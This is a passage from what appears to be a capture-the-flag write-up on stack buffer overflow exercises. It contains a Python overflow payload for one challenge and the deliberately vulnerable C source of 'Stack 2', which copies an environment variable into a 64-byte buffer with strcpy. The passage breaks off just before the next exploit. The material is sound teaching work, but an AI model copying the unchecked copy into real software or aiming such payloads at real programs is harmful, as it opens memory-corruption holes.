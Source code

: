 Exploit:

```py
var = 'x'*68 + 'dcba'
print(var)
```

![Alt text](https://github.com/tig-paul/CSOC-2024/blob/main/Writeup_files/image-51.png)

## Stack 2:

Source code:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

### Writeup:

I compiled and executed normally and it showed `please set the GREENIE environment variable`. Then I searched about the `getenv` function and how to set the environment variables. Also went through the source code to understand what is happenning and how the value of the `GREENIE` variable is effecting the `modified` variable. Then I made this exploit:
